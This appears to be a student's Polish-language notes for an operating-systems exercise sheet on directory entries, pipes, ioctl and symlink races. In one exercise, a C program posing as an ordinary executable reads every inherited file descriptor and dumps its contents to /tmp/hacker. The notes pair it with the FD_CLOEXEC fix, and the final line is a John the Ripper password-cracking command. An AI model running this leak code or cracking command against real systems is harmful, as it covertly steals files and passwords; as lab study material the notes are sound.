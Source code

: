 # SO Lista 4(1,3,4,5,6,7)

## Zadanie 1
Rekord katalogu (ang. directory entry )

```c=
struct dirent {
char d_name[256]; // filename
ino_t d_ino; // inode number
off_t d_off; // offset to the next dirent
unsigned short d_reclen; // length of this record
unsigned char d_type; // type of file
};
```
Dowiązanie to bezpośrednie odniesienie do pliku za pośrednictwem jego i-node. Używając łącza twardego, możesz zmienić zawartość lub lokalizację oryginalnego pliku, a dowiązanie nadal będzie wskazywać na oryginalny plik, ponieważ jego i-node nadal wskazuje na ten plik.

I-node to struktura danych w systemie plików, która opisuje obiekt systemu plików, taki jak plik lub katalog. Każdy i-node przechowuje atrybuty i lokalizacje bloków dyskowych danych obiektu. Atrybuty obiektu systemu plików mogą obejmować metadane (czas ostatniej zmiany, dostęp, modyfikacja), a także dane właściciela i uprawnień. 

## Zadanie 3
**Potok** to mechanizm komunikacji między procesami przy użyciu przekazywania komunikatów. Potok to zestaw procesów połączonych ze sobą za pomocą ich standardowych strumieni, dzięki czemu tekst wyjściowy każdego procesu (stdout) jest przekazywany bezpośrednio jako wejście (stdin) do następnego.

![](https://i.imgur.com/NkECtmJ.png)

* creat(2) If pathname does not exist, create it as a regular file. Write-only. If the file already exists and is a regular file it will be truncated to length 0.
* dup2(2) system call creates a copy of the file descriptor oldfd, using the lowest-numbered unused file descriptor
* pipe(2) creates a pipe, a unidirectional data channel that can be used for interprocess communication.
* close(2) closes a file descriptor, so that it no longer refers to any file and may be reused.
* waitpid(2) system call suspends execution of the calling thread until a child specified by pid argument has changed state.
* fork(2) creates a new process by duplicating the calling process.
* execve(2) - execute program

1. pipe
2. fork
4. creat dla cnt
5. dup2 (child in stdout)
6. close (parent close read, child close write)
7. exec
8. waitpid

If all file descriptors referring to the read end of a pipe have been closed, then a write(2) will cause a SIGPIPE signal to be generated for the calling process.

SIGPIPE

## Zadanie 4
     int
     ioctl(int d, unsigned long request, ...);

Funkcja ioctl() manipuluje podstawowymi parametrami urządzeń plików specjalnych. W szczególności wiele cech znaków specjalnych plików (np. Terminali) może być kontrolowanych za pomocą żądań ioctl(). Argument d musi być deskryptorem otwartego pliku.
Pierwotne, historyczne użycie ioctl polegało na ustawianiu parametrów, takich jak szybkość transmisji i liczba bitów ramki w sterowniku komunikacji szeregowej, stąd nazwa (dla „I/O control”). Później wywołania ioctl zostały dodane dla innych funkcji sterownika

Urządzenie znakowe to urządzenie, którego sterownik komunikuje się, wysyłając i odbierając pojedyncze znaki (bajty). Przykład - porty szeregowe, porty równoległe, karty dźwiękowe, klawiatura.

Urządzenie blokowe to urządzenie, którego sterownik komunikuje się, wysyłając całe bloki danych. Przykład - dyski twarde, kamery USB.

Ioctl mają polecenie zakodowane w dolnym słowie i rozmiar dowolnych parametrów wejścia i wyjścia w górnym słowie. Wysokie 3 bity wyższego słowa są używane do kodowania stanu wejścia / wyjścia parametru.
   
     31  29 28              16 15             8 7          0
     + ------------------------------------------------------------ +
     | I/O | Długość parametru | Grupa poleceń | Polecenie |
     + ------------------------------------------------------------ +
#define DIOCEJECT	_IOW('d', 112, int)	 wysuń dysk wymienny

#define	KIOCTYPE	_IOR('k', 9, int) pobierz typ klawiatury

#define	SIOCGIFCONF	_IOWR('i', 38, struct ifconf)	pobierz listę ifnet

ifnet interfejsy jądra do manipulowania interfejsami sieciowymi


## Zadanie 5

Time Of Check To Time Of Use (TOCTTOU)

O_NOFOLLOW

Wyścig linków symbolicznych to rodzaj luki w zabezpieczeniach oprogramowania, która wynika z tego, że program tworzy pliki w niezabezpieczony sposób. Złośliwy użytkownik może utworzyć dowiązanie symboliczne do pliku, do którego w inny sposób nie ma dostępu. Gdy uprzywilejowany program tworzy plik o tej samej nazwie, co dowiązanie symboliczne, w rzeczywistości tworzy zamiast tego plik z dowiązaniem, prawdopodobnie wstawiając zawartość pożądaną przez szkodliwego użytkownika lub nawet dostarczoną przez złośliwego użytkownika (jako dane wejściowe do programu).

Nazywa się to „wyścigiem”, ponieważ w swojej typowej manifestacji program sprawdza, czy plik o tej nazwie już istnieje; jeśli nie istnieje, program tworzy plik. Osoba atakująca musi utworzyć łącze w okresie między sprawdzeniem a utworzeniem pliku.

## Zadanie 6

Dowiązanie symboliczne składa się ze specjalnego typu pliku, który służy jako odniesienie do innego pliku lub katalogu

który odwoluję się do symbolicznej ścieżki wskazującej lokalizację innego pliku.

Dowiązanie symboliczne zawiera napis tekstowy, który jest automatycznie interpretowany, jako ścieżka do innego pliku lub katalogu.

Przesunięcie pliku jest ustawione na przesunięcie bajtów.

```c=
int main(void) {
  long max_fd = sysconf(_SC_OPEN_MAX);
  int out = Open("/tmp/hacker", O_CREAT | O_APPEND | O_WRONLY, 0666);

  /* TODO: Something is missing here! */
  
  char buf[256];
  char bufname[256];
  char bufresult[1024];
  
  for(int i = 4; i <= max_fd; i++) {
    if (fcntl(i, F_GETFD) != -1) {
        
        int s = sprintf(buf, "/proc/self/fd/%d",i);
        int n = readlink(buf, bufname, 256);
        bufname[n] = '\0';
        
        if (n != -1) {     
        
           s = sprintf(bufresult, "File descriptor %d is %s\n", i, bufname);
           bufresult[s] = '\0';
           Write(out,bufresult,s);
        
           lseek(i, 0, SEEK_SET);
           char contentbuff[256];
           int readn;
           
           while ((readn = read(i,contentbuff,256)) > 0) {
            
             contentbuff[readn] = '\0';
             Write(out,contentbuff,readn);
           }
        }
            
    }
  }
  
  Close(out);

  printf("I'm just a normal executable you use on daily basis!\n");

  return 0;
}
```
```c=
fcntl (fd_2, F_SETFD, FD_CLOEXEC);
```

john --show mypasswd